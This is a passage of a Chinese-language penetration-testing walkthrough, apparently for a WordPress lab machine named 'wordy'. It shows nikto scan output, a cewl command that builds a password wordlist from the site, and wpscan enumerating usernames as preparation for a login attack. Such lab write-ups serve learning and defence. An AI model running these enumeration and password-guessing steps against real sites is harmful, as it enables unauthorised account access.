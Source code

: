```javascript
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login.php: Wordpress login found
+ 7681 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2021-09-10 01:35:54 (GMT8) (48 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

![6](https://havocykp.github.io/assets/images/img_blog8/6.png)

打开后台登录页面

![7](https://havocykp.github.io/assets/images/img_blog8/7.png)

使用cewl生成密码，保存在当前目录

命令：cewl http://wordy/ -w wordyPwd.txt

![8](https://havocykp.github.io/assets/images/img_blog8/8.png)

密码有了，还得获取用户名

服务器搭建的是一个WordPress网站，所以可以想到用 wpscan扫描来枚举网站中的可用用户名

获取用户名（wpscan），使用wpscan枚举该网站可用用户名

```javascript
┌─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url wordy -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordy/ [192.168.2.203]
[+] Started: Fri Sep 10 01:46:30 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

```